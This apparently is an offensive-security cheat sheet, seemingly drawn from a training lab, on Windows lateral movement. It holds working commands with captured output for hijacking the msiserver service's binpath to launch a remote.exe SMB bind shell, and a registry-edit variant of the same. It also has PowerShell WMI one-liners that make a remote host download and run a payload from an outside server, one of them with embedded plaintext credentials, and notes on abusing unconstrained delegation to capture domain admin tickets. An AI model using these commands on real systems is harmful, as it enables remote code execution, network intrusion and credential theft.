 # Windows Lateral Movement

## Native SMB

### SMB Bind Shell via remote.exe & Service (SC)

1. **Move remote.exe to target**:
```
net use T: \\192.168.1.[x]\C$

move remote.exe T:\
```

2. **Target service to be started**
```
C:\Users\gte-1>sc.exe \\192.168.1.118 qc msiserver
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: msiserver
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\WINDOWS\system32\msiexec.exe /V
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Windows Installer
        DEPENDENCIES       : RpcSs
        SERVICE_START_NAME : LocalSystem
```

3. **Set Target Bin Path**
```
sc \\192.168.1.118 config msiserver binpath= "cmd.exe /C start /B C:\remote.exe /S cmd.exe pwnme"
```

4. **Check Target Bin Path**
```
C:\Users\gte-1>sc.exe \\192.168.1.118 qc msiserver
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: msiserver
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : cmd.exe /C /B C:\remote.exe /S cmd.exe pwnme
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Windows Installer
        DEPENDENCIES       : RpcSs
        SERVICE_START_NAME : LocalSystem
```

5. **Execute target remote.exe payload**
```
C:\Users\gte-1>sc.exe \\192.168.1.118 start msiserver
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

6. **Connect to SMB bind shell**
```
C:\Users\gte-1>"\\WIN-5696DUCBS1B\team-share\GTE-Labs\Day 4\Lab 2\remote.exe" /C
 192.168.1.118 "pwnme"
**************************************
***********     REMOTE    ************
***********     CLIENT    ************
**************************************
Connected...

]Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
**Remote: Connected to GTE-WIN7-1-PC gte-1 [Thu 8:50 AM]
```

7. **Clean Up Target**
```
C:\Users\gte-1>sc \\192.168.1.118 config msiserver binpath= "C:\WINDOWS\system32
\msiexec.exe /V"
[SC] ChangeServiceConfig SUCCESS

******ESCAPE QUOTES IF NEEDED******
sc \\192.168.1.177 config msiserver binpath= "\"C:\WINDOWS\system32\msiexec.exe /V\""
```

8. **Alt move patern via Reg Edit**
```
reg add \\192.168.1.177\hklm\system\currentcontrolset\services\msiserver /v ImagePath /t REG_EXPAND_SZ /d "cmd /c start /b c:\windows\system32\remote.exe /s cmd.exe pwnme" /f
```

## Powershell Lateral Movement

### WMI Internal Reverse Port Forward

Reverse portforward staged payload internal -> a download cradle

```powershell
Invoke-WmiMethod -ComputerName 43.*.*.* -Class Win32_Process -Name Create -ArgumentList "powershell.exe -w 1 -C `"&([ScriptBlock]::Create((([Char[]](New-Object Net.WebClient).DownloadData('http://43.*.*.*:10080/updates/updater'))-Join'')))`""
```

Reverse portforward staged payload internal -> a download cradle  -> with PS creds

```powershell
$credential = New-Object System.Management.Automation.PSCredential ("DA\some",("TestPassword" | ConvertTo-SecureString -AsPlainText -Force)); $cmd = "powershell.exe -w 1 -C `"&([ScriptBlock]::Create((([Char[]](New-Object Net.WebClient).DownloadData('http://test.com/download/test'))-Join'')))`""; Invoke-WmiMethod -ComputerName '43.160.34.168' -Credential $credential Win32_Process -Name 'Create' -ArgumentList $cmd
```

### Unconstrained delegation to attack DA or user credentials

Powershell and PowerView list of servers that allow for unconstrained delegation to attack DA or user credentials:

```powershell
powerpick Get-DomainComputer -Unconstrained
> Then e-mail DA with a 1x1px image to a UNC path.
    > TGS Service ticket is delivered to compromised server and stored in LSASS
    > Can extract and use TGT until it expires.
    > Can be used to get krbtgt
```
